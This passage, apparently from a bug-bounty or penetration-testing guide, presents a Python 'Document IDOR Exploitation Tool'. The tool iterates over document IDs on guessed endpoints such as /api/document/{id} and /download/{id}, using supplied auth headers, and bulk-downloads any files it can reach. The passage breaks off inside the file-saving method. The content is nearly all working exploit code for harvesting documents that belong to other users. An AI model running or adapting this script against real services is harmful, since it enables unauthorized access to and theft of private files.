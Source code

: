 ### 3. 📄 Document and File Access

#### Document IDOR Exploitation
```python
#!/usr/bin/env python3
"""
Document IDOR Exploitation Tool

Author: LakshmiKanthanK(letchupkt)
Portfolio: https://letchupkt.vgrow.tech
"""

import requests
import os
from urllib.parse import urlparse

class DocumentIDOR:
    def __init__(self, base_url, auth_headers):
        self.base_url = base_url
        self.session = requests.Session()
        self.session.headers.update(auth_headers)
        self.downloaded_files = []
    
    def test_document_access(self, doc_id_range):
        """Test access to documents via IDOR"""
        for doc_id in doc_id_range:
            endpoints = [
                f"/api/document/{doc_id}",
                f"/documents/{doc_id}.pdf",
                f"/files/document_{doc_id}.pdf",
                f"/download/{doc_id}",
                f"/api/file/{doc_id}/download"
            ]
            
            for endpoint in endpoints:
                try:
                    url = f"{self.base_url}{endpoint}"
                    response = self.session.get(url, timeout=10)
                    
                    if response.status_code == 200:
                        # Check if it's a file
                        content_type = response.headers.get('content-type', '')
                        
                        if ('pdf' in content_type or 
                            'document' in content_type or
                            'application/octet-stream' in content_type):
                            
                            filename = f"document_{doc_id}.pdf"
                            self.save_file(response.content, filename)
                            
                            print(f"[+] Downloaded: {filename}")
                            self.downloaded_files.append(filename)
                        
                        elif response.text and len(response.text) > 100:
                            print(f"[+] Accessible document {doc_id}: {url}")
                
                except Exception as e:
                    continue
    
    def save_file(self, content, filename):
        """Save downloaded file"""
        os.makedirs("downloaded_docs", exist_ok=True)
        filepath = os.path.join("downloaded_docs", filename)
```